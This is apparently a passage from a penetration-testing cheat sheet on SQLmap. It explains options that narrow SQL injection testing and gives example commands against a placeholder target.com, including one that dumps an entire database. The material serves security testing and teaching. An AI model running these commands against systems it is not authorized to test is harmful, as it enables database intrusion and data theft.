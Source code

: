 The parameter `--test-filter` is helpful when you want to focus on specific types of SQL injection techniques or payloads. Instead of testing the full range of payloads that SQLMap has, you can limit it to those that match a certain pattern, making the process more efficient, especially on large or slow web applications.

```ps1
sqlmap -u "https://www.target.com/page.php?category=demo" -p category --test-filter="Generic UNION query (NULL)"
sqlmap -u "https://www.target.com/page.php?category=demo" --test-filter="boolean"
```

By default, SQLmap runs with level 1 and risk 1, which generates fewer requests. Increasing these values without a purpose may lead to a larger number of tests that are time-consuming and unnecessary.

```ps1
sqlmap -u "https://www.target.com/page.php?id=1" --level=1 --risk=1
```

Use the `--technique` option to specify the types of SQL injection techniques to test for, rather than testing all possible ones.

```ps1
sqlmap -u "https://www.target.com/page.php?id=1" --technique=B
```

## SQLmap Without SQL Injection

Using SQLmap without exploiting SQL injection vulnerabilities can still be useful for various legitimate purposes, particularly in security assessments, database management, and application testing.

You can use SQLmap to access a database via its port instead of a URL.

```ps1
sqlmap -d "mysql://user:pass@ip/database" --dump-all
```

## References

* [#SQLmap protip - @zh4ck - March 10, 2018](https://twitter.com/zh4ck/status/972441560875970560)
* [Exploiting Second Order SQLi Flaws by using Burp & Custom Sqlmap Tamper - Mehmet Ince - August 1, 2017](https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/)
